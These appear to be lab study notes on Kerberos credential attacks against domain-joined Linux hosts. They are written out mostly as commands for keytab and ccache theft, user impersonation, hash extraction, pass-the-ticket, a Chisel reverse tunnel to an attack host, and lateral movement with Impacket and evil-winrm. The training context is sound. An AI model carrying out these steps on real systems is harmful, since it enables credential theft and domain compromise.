 
Kerberos
- kinit
- klist

Keytab is a file containing pairs of Kerberos principals and encrypted keys. It is not restricted to the system it was created on.

Default path: /etc/krb5.keytab
- Only read by root
- If gain access, we can impersonate user

Linux Auth via Port Forward
```shell-session
ssh david@inlanefreight.htb@10.129.204.23 -p 2222
```

Check domain joined with (realm / sssd / winbind)
```shell-session
realm list
```
```shell-session
ps -ef | grep -i "winbind\|sssd"
```

Finding keytab files
```shell-session
find / -name *keytab* -ls 2>/dev/null
```

Identifying keytab files in cronjobs
```shell-session
crontab -l
```

#### Ccache
- Credential cache file storing kerberos ticket information
- The path is placed in KRB5CCNAME environment variable
- Default located at /tmp

```shell-session
env | grep -i krb5
```
```shell-session
ls -la /tmp
```


Listing keytab file information
```shell-session
klist -k -t /opt/specialfiles/carlos.keytab 
```

Impersonating a user with a keytab
```shell-session
klist
```
```shell-session
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```
```shell-session
klist
```
```shell-session
smbclient //dc01/carlos -k -c ls
```

**Note:** To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the environment variable `KRB5CCNAME`.


#### Keytab Extract
- To gain access to linux account, we must have password

Extracting Keytab Hashes with KeyTabExtract
```shell-session
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```
We can now pass the hash, crack the hash, or use Rubeus

Gain root:
```shell-session
ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
```
```shell-session
sudo -l
```
```shell-session
sudo su
```

Identify Group Membership
```shell-session
id julio@inlanefreight.htb
```

Importing the ccache file into our current session
```shell-session
klist
```
```shell-session
cp /tmp/krb5cc_647401106_I8I133 .
```
```shell-session
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```
```shell-session
klist
```
```shell-session
smbclient //dc01/C$ -k -c ls -no-pass
```

Allow access on domain controller from attack host
```shell-session
MasterMarkyMark@htb[/htb]$ cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```
Proxychains configuration file
```shell-session
cat /etc/proxychains.conf

[ProxyList]
socks5 127.0.0.1 1080
```

Download Chisel to our attack host
```shell-session
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
```
```shell-session
gzip -d chisel_1.7.7_linux_amd64.gz
```
```shell-session
mv chisel_* chisel && chmod +x ./chisel
```
```shell-session
sudo ./chisel server --reverse 
```

Connect to MS01 with xfreerdp
```shell-session
xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

Execute chisel from MS01
```cmd-session
c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```

Setting the KRB5CCNAME Env Variable on attack host
```shell-session
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

Using Impacket with proxychains and Kerberos Authentication
```shell-session
proxychains impacket-wmiexec dc01 -k
```

#### evil-winrm
```shell-session
sudo apt-get install krb5-user -y
```

If krb5-user is already installed, change the configuration file /etc/krb5.conf to 

```shell-session
MasterMarkyMark@htb[/htb]$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }
```

```shell-session
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

#### Misc

Convert ccache (Linux) to kirbi (Windows) and vice versa
```shell-session
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```

Import ticket with Rubeus
```cmd-session
C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```

Linikatz - mimikatz for UNIX
```shell-session
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
```
```shell-session
/opt/linikatz.sh
```


